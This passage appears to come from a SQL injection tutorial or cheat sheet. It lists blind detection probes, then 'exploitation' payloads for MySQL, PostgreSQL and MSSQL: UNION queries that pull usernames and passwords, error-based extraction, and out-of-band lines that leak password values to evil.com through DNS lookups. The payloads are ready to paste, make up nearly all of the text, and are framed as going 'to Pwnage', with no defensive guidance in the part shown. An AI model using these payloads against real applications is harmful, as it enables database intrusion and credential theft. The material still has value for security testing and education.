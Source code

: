 #### **Method 2: Boolean-Based Blind Detection**
```http
# True condition
GET /products?id=1 AND 1=1

# False condition  
GET /products?id=1 AND 1=2

# Observe different responses to determine if injection works
```

#### **Method 3: Time-Based Blind Detection**
```sql
-- MySQL
id=1' AND SLEEP(5)--

-- PostgreSQL  
id=1' AND pg_sleep(5)--

-- MSSQL
id=1' AND WAITFOR DELAY '00:00:05'--
```

### **Exploitation Techniques - From Detection to Pwnage:**

#### **Union-Based Data Extraction:**
```sql
-- Find number of columns
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--  -- Until error

-- Extract data using UNION
' UNION SELECT 1,2,3--
' UNION SELECT username,password,4 FROM users--
' UNION SELECT table_name,table_schema,3 FROM information_schema.tables--
```

#### **Error-Based Data Extraction:**
```sql
-- MySQL
' AND ExtractValue(1, CONCAT(0x3a, (SELECT database())))--

-- MSSQL  
' AND 1=CONVERT(int, (SELECT @@version))--
```

#### **Out-of-Band Data Exfiltration:**
```sql
-- MySQL + DNS exfiltration
' AND LOAD_FILE(CONCAT('\\\\', (SELECT password FROM users LIMIT 1), '.evil.com\\test.txt'))--

-- MSSQL
'; EXEC xp_dirtree '\\' + (SELECT TOP 1 password FROM users) + '.evil.com\\test' --
```
